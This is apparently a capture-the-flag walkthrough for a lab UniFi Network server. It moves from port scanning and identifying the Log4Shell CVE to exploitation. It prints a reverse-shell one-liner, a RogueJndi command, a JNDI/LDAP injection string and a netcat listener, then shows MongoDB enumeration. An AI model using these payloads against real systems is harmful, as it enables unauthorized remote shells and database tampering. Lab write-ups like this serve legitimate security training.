 ## Unified Solution

### Which are the first four open ports?

1. Run the following to discover open ports:
   ```
   nmap -sV  {target_ip)
   ```
   
   ![Screenshot 2024-03-10 at 6 48 51 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/42db2934-de9e-45dc-ad01-ee3a08cdab9e)


**Answer: 22,6789,8080,8443**

## What is the title of the software that is running running on port 8443?

1. We know from the previous section that 8443 is an ssl service. We know that port 8080 is http service. Lets first checkout **{target_ip}:8080** in our browser. This redirects to a website `https://{target_ip}:8443/manage/account/login?redirect=%2Fmanage`
   
![Screenshot 2024-03-10 at 6 54 40 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/424d51b0-791f-49e5-b71d-4a52699dee4e)

2. According to the hint we need to look at the `title`. So we inspect the website in our browser and see that the find that in the `head` tag we find a `title` tag containing **UniFi Network**
   
![Screenshot 2024-03-10 at 6 58 58 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/df1aad6c-3531-4a70-9819-94442093ff1d)

**Answer: UniFi Network** 

## What is the version of the software that is running?

1. Looking at the website we were redirected to we find the version.

   ![Screenshot 2024-03-10 at 7 00 50 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/a32fdb77-3c78-4fb8-b03a-5d61bd3d31f7)

**Answer: 6.4.54**

## What is the CVE for the identified vulnerability?

Hint : Look for UniFi vulnerabilities in 2021

1. Just do a google search for **unifi network version 6.4.54 cve**

**Answer: CVE-2021-44228** 

## What protocol does JNDI leverage in the injection?

1. We can just read the details of CVE that we found [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

**Answer: LDAP ** 

## What tool do we use to intercept the traffic, indicating the attack was successful?

*Hint: Not wireshark*

1. Let's just do a lookup for alternative software to wireshark

**Answer: tcpdump**


## What port do we need to inspect intercepted traffic for?
*Hint: Default port for LDAP*

1. Let's do a lookup for default LDAP port

**Answer: 389**


## What port is the MongoDB service running on?

*Hint: Check the running processes on the system*

![Screenshot 2024-03-15 at 1 28 38 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/7989e4c4-5917-4239-a5f6-8b732cf9da03)
![Screenshot 2024-03-15 at 1 29 29 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/c3d4fcf2-6bc0-4e71-8caf-916e48e87c35)
![Screenshot 2024-03-15 at 1 31 27 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/3e1b9c42-0444-4ee0-915e-a2eaff881b70)


![Screenshot 2024-03-15 at 1 47 20 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/d710e27c-8a08-4bbb-aadd-8269bb840f03)
![Screenshot 2024-03-15 at 1 49 57 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/75338ac5-9b49-4c30-a0a9-9b3119c541be)
![Screenshot 2024-03-15 at 1 47 08 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/9b1e7b71-06df-42b2-99a8-7a3dfb8e5302)

This will convert the reverse shell payload to base64. 
```echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64```


```java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"```


open new terminal netcat listener


```nc -lvp 4444```

Go back to burp and edit the remmber 
${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}




We now have a shell in our netcat listener now let's upgrade it 



![Screenshot 2024-03-15 at 2 40 37 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/623bfe9f-b4ef-40d7-ac5e-f64e3551d63e)

![Screenshot 2024-03-15 at 10 37 08 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/394f9896-bd86-4898-8810-0a8ba2636bd5)


now let's upgrade it into a bash shell

```script /dev/null -c bash```

![Screenshot 2024-03-15 at 10 06 21 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/d0b07957-14c2-4637-a951-6f65d1dc503c)



## What port is the MongoDB service running on?
1. Let's list down all the services in our target by running the command
   ``` ps aux | grep mongo```
![Screenshot 2024-03-15 at 10 47 02 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/5aff177d-c25c-4be3-bea7-d895682c81d1)

**Answer: 27117**

## What is the default database name for UniFi applications?
*Hint: Connect to Mongo and list the databases*

1. Let's connect to mongo runningin  port 27117
   ```
   mongo --port 27117
   ```
![Screenshot 2024-03-15 at 10 54 54 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/a9b10320-f5b1-491b-82f0-865267aa6178)

2. Let's list all databases
```show dbs```

![Screenshot 2024-03-15 at 10 56 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/452d21ea-a394-4545-84f2-d2bfd3672a5b)

**Answer: ace ** 

## What is the function we use to enumerate users within the database in MongoDB?

*Hint: Search for "find items in mongo" in Google*

1. Upon our google search we find ```db.admin.find()**

**Answer: db.admin.find()**

## What is the function we use to update users within the database in MongoDB?

*Hint: Search for "update items in mongo" in Google*

**Answer:db.admin.update**

   



